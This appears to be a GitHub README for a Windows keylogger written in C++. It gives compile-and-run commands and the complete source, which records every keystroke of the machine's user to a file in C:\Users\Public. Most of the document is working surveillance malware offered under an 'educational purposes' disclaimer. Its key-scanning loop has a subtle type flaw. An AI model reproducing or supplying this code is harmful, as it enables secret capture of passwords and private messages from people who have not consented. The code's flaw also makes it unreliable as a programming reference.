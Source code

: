 # Keylogger && MouseLogger

This is a simple keylogger written in C++ that logs keystrokes to a file.

## Disclaimer

**This software is intended for educational purposes only. Unauthorized use of this software for malicious activities, such as spying on users or logging sensitive information without consent, is illegal and unethical. Use it responsibly and ensure you have permission to log keystrokes on any system.**

## Features

- Logs keystrokes to a file located at `C:\Users\Public\keylogger.txt`.
- Captures regular keys, special keys (Enter, Backspace, Tab), and handles Shift key for uppercase letters.

## Requirements

- Windows operating system.
- Visual Studio or any other C++ compiler compatible with Windows API.

## Installation

1. Clone or download the repository.
2. Open the project in your preferred C++ development environment.

## Usage

1. Compile the program using your C++ compiler.
2. Run the executable. It will start logging keystrokes to `C:\Users\Public\keylogger.txt`.

### Example

```powershell
g++ -o keylogger keylogger.cpp -luser32
./keylogger
```
### How It Works
The program opens a file keylogger.txt in append mode.
It uses GetAsyncKeyState to check the state of each key.
If a key is pressed, it translates the key code to the corresponding character, considering the Shift key state.
The character is then written to the file.
The program runs in an infinite loop with a short sleep interval to prevent high CPU usage.
Key Components

### keys Function
File Handling: Opens keylogger.txt in append mode.
Key State Tracking: Uses GetAsyncKeyState to detect key presses.
Shift Key Handling: Adjusts the keyboard state to consider the Shift key.
Key Code Translation: Converts virtual key codes to characters using ToUnicode.
File Writing: Logs the characters to the file.

### main Function
Simply calls the keys function to start logging.
Code
```cpp
#include <iostream>
#include <Windows.h>
#include <WinUser.h>

using namespace std;

void keys() {
    char c;
    HANDLE hFile;
    DWORD numberofbytes;
    LPCSTR file = "C:\\Users\\Public\\keylogger.txt";

    hFile = CreateFileA(file, FILE_APPEND_DATA, 0, NULL, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);

    if (hFile == INVALID_HANDLE_VALUE) {
        cerr << "[-] Error in File Creating";
        return;
    }

    bool keyStates[256] = { false };

    while (true) {
        for (c = 8; c <= 255; c++) {
            SHORT keyState = GetAsyncKeyState(c);
            bool isKeyPressed = (keyState & 0x8000) != 0;
            if (isKeyPressed && !keyStates[(unsigned char)c]) {
                keyStates[(unsigned char)c] = true;

                // Determine if the Shift key is pressed
                bool isShiftPressed = (GetAsyncKeyState(VK_SHIFT) & 0x8000) != 0;

                // Translate virtual key code to character
                BYTE keyboardState[256];
                GetKeyboardState(keyboardState);
                if (isShiftPressed) {
                    keyboardState[VK_SHIFT] = 0x80;
                }
                else {
                    keyboardState[VK_SHIFT] = 0;
                }

                // Convert the virtual key code to a character
                WCHAR buffer[2] = { 0 };
                int result = ToUnicode(c, 0, keyboardState, buffer, 2, 0);
                char output;

                if (result > 0) {
                    output = static_cast<char>(buffer[0]);
                }
                else {
                    switch (c) {
                    case VK_RETURN:
                        output = '\n'; // Newline for Enter key
                        break;
                    case VK_BACK:
                        output = '\b'; // Backspace
                        break;
                    case VK_TAB:
                        output = '\t'; // Tab
                        break;
                    default:
                        output = '\0'; // Null character for unhandled keys
                    }
                }

                if (output != '\0') {
                    DWORD written;
                    WriteFile(hFile, &output, 1, &written, NULL);
                }
            }
            else if (!isKeyPressed) {
                keyStates[(unsigned char)c] = false;
            }
        }
        Sleep(10);  // To prevent high CPU usage
    }

    CloseHandle(hFile);
}

int main(int argc, char* argv[]) {
    keys();
    return 0;
}
```
## License
This project is licensed under the MIT License - see the LICENSE file for details.
